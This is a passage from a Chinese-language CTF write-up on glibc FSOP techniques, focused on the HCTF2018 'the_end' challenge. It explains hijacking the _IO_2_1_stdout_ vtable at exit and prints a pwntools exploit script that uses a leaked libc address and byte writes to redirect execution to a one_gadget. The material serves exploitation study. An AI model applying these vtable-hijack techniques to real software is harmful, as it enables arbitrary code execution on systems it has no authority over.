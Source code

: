 2. 劫持 vtable 的结构体指针类型，从_IO_file_jumps，劫持成_IO_str_jumps，这样程序就不会对 vtable 进行检查，而_IO_file_jumps 结构体与_IO_file_jumps 几乎一致。

▲有些绕过条件 ctfwiki 上说得更详细

参考资料：ctfwiki，还有其它好多，贴不过来了。

 ▲做个总结，因为高版本 Libc 关于 IO_FILE 的检查越来越多，所以其实现在的 FSOP 大多就是用来泄露地址的。

二、HCTF2018_the_end
------------------

1. 常规 checksec，除了 canary 之外保护全开。IDA 打开找漏洞，没什么漏洞，就是程序会泄露出 sleep 的地址，然后让我们在任意地方写入 5 个字节，并且给了 libc 文件，那么就可以算出 libc 基地址，版本为 2.23。

printf("here is a gift %p, good luck ;)\n", &sleep);

2. 程序最后调用 exit(1337)，两种方法：

(1)exit 会无条件通过_IO_2_1_stdout_结构体调用 vtable 虚表中的_setbuf 函数。

(2)exit 会通过_IO_2_1_stdout_结构体调用 vtable 虚表中的_overflow 函数，但需要满足以下条件：

```
#注释头
 
_IO_FILE_plus._mode <= 0
_IO_FILE_plus._IO_write_ptr > _IO_FILE_plus._IO_write_base

```

所以我们伪造的_IO_FILE_plus 结构体就需要满足上述条件

(3)exit 会调用_rtld_global 结构体中的_dl_rtld_lock_recursive 函数，不用满足条件。

3. 三种方法攻击思路:

(1) 由于会调用_setbuf 函数，vtable 位于 libc 数据段上不可写部分，无法直接修改 vtable 对应的_IO_file_jumps 中的函数指针。那么可以伪造_IO_2_1_stdout_中的 vtable 指针，利用 2 字节修改 vtable 指针的倒数两个字节，使其指向一个可读可写内存，形成一个 fake_IO_file_jumps，然后在该内存对应_setbuf 函数偏移处伪造 one_gadget 地址。

```
#注释头
 
from pwn import *
libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
p = process('./the_end')
 
vtable_offset = 0xd8
_setbuf_offset = 0x58
fake_vtable_offset = 0x3c5588
#这个需要自己调试找，并保证偏移_setbuf_offset处修改之后程序不会直接崩溃
 
sleep_addr = p.recvuntil(', good luck',drop=True).split(' ')[-1] 
libc_base = long(sleep_addr,16) - libc.symbols['sleep']
 
one_gadget = libc_base + 0xf02b0
_IO_2_1_stdout_vtable_addr = libc_base + libc.sym['_IO_2_1_stdout_'] + vtable_offset
 
fake_vtable = libc_base + fake_vtable_offset
fake_vtable_setbuf_addr = libc_base + fake_vtable_offset + _setbuf_offset
 
print 'libc_base: ',hex(libc_base)
print 'one_gadget:',hex(one_gadget)
 
for i in range(2):
    p.send(p64(_IO_2_1_stdout_vtable_addr+i))
    p.send(p64(fake_vtable)[i])
 
for i in range(3):
    p.send(p64(fake_vtable_setbuf_addr+i))
```